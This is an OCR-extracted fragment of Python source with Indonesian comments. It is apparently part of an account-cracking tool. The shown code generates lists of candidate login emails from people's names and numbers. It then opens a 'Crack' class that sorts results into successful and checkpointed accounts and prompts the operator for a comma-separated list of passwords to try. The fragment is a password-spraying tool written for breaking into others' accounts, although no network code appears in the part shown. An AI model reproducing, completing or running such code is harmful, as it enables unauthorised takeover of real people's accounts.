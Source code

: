 		try:

			for z in range(int(limit)):

				if len(nama.split()) > 1:

					email = str(nama.split()[0])+str(nama.split()[1])+str(z)+str(format)+"<=>"+str(nama.split()[0])+" "+str(nama.split()[1])

				else:

					email = str(nama)+str(z)+str(format)+"<=>"+str(nama)

				if email in tampung:pass

				else:tampung.append(email)

		except:pass

###----------[ BAGIAN CRACK ]---------- ###

class Crack:

	

	###----------[ FUNCTION INIT ]---------- ###

	def __init__(self):

		self.loop = 0

		self.ok = []

		self.cp = []

		self.hari_ini = datetime.now().strftime("%d-%B-%Y")

		

	###----------[ ATUR SANDI DAN METODE ]---------- ###

	def atursandi(self):

		prints(Panel(f"""{P2}berhasil mengumpulkan {len(tampung)} id""",width=80,padding=(0,21),style=f"{color_panel}"))

		set = console.input(f" {H2}• {P2}apakah kamu ingin menggunakan sandi manual?(y/n) : ")

		

		###----------[ SANDI MANUAL ]---------- ###

		if set in["Y","y"]:

			prints(Panel(f"""{P2}silahkan buat katasandi dengan , (koma) sebagai pemisah tiap katasandi""",width=80,style=f"{color_panel}"))

			pwx = console.input(f" {H2}• {P2}buat katasandi : ").split(",")

			if len(pwx)<=5:

				prints(Panel(f"""{M2}katasandi harus minimal 6 huruf""",width=80,style=f"{color_panel}"))

				exit()

			self.manual(pwx)
